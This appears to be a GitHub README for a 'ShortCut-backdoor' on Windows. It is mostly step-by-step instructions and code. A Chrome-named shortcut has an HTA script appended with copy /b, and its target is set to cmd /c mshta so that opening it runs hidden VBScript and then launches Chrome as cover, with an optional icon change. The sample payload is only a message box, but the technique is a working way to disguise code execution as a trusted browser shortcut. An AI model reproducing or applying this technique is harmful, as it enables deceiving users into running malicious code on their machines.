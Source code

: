 # ShortCut-backdoor (Windows)

Tested on Windows 11

* 1  Create a chrome shortcut named exploit
* 2- Create a code.hta file to execute code, for example:
  ```vb
  <hta:application windowstate="minimize">
  <script language="VBScript">
  MsgBox "HACKED!"
  Close
  Set shell = CreateObject("WScript.Shell")
  shell.Run """C:\Program Files\Google\Chrome\Application\chrome.exe""", 0, False
  Close
  </script>
  ```
* 3- On exploit shortcut, change proprieties:
```
Target: cmd /c mshta %CD%\Chrome.lnk
Start In: C:\Users\<your-user>\Desktop

And change icon if you desire
```
* 3- To build: On cmd:
  ```
  copy /b C:\Users\<your-user>\Desktop\exploit.lnk+code.hta Chrome.lnk
  ```

